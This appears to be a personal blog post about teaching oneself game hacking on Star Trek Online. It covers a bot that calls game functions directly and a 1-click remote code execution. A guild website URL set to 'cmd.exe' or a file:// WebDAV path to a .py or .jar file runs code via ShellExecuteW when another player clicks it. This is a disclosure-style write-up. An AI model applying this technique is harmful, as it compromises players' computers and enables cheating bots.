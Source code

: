 # Star Trek Online

In July 2023, I came across a video from [DEF CON 25](https://www.youtube.com/watch?v=ZAUf_ygqsDo&t). where the presenter, called Manfred describes his journey into game hacking over the past 20 years. The video fascinated me so much that I decided I wanted to give it a try as well. However, I didn’t have the necessary skills or knowledge—apart from a few hours spent experimenting with Cheat Engine, some basic knowledge of Python, and a little understanding of C++ syntax. I downloaded x64dbg and Ghidra and began experimenting without any guides.

For my experiments, I chose an older game, Star Trek Online, which didn’t have anti-cheat measures (which was very helpful). Back in 2014, I had watched a video by a person named Skybuck Flying, who had created a simple but effective bot to generate in-game currency. It was a bot that used image recognition and clicked buttons in the game window. However, this limited the ability to use your computer, as the bot would take control of the mouse, and you could only watch.

I found this approach to be quite amateurish and difficult to scale. After about four months, I managed to program my first bot prototype. Instead of using the mouse/keyboard and image recognition, my bot directly called functions from the game’s process. I could also close the game window and still have up to 40 instances of the game running at once, without needing expensive hardware (a $20 Windows VPS was all it took).

Once I had achieved my initial goal, I decided to look for bugs and exploits in the game. I found several, but perhaps the most significant was a 1-click remote code execution exploit on the victim’s computer. All it took was convincing the victim to click a button in the game to visit the guild website. The only condition was that the victim needed to have Python or Java installed. Files like .py or .jar don’t have the "Mark of the Web" assigned to them when downloaded from the internet. (If you bypass the Mark of the Web, you can even run an .exe file, though such an exploit could be sold for a lot of money so nobody will use it for hacking players of a small MMORPG.)

## How does it work ?

Game is using WinAPI Function ShellExecuteW to open URLs 

```c
HINSTANCE ShellExecuteW(
  [in, optional] HWND    hwnd,
  [in, optional] LPCWSTR lpOperation,
  [in]           LPCWSTR lpFile,
  [in, optional] LPCWSTR lpParameters,
  [in, optional] LPCWSTR lpDirectory,
  [in]           INT     nShowCmd
);
end
```
The value of the lpOperation parameter is set to L"open", which allows us, for example, to open the command line when clicking on the "Visit website" button if we set the guild's URL as "cmd.exe" as the guild master. This becomes interesting when we host our own WebDAV server, upload our custom Python/Java code to it, and then set the guild website URL to something like
```
file://webdavurl/code.py
```
Using URI scheme "file://" is important as it is being used by Windows for WebDAV servers and when ShellExecuteW is called with lpOperation param L"open" and lpFile set as URL of our WebDAV server Windows will open and run code.py automatically, this can lead to remote code execution.

<iframe width="560" height="315" src="https://www.youtube.com/embed/7DsEKg5_Ocw?si=7iXN1XVoejrtHdZQ" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>

Thanks for reading, hope you enjoyed it, in next blog post i will talk about weaponizing .rdp files.

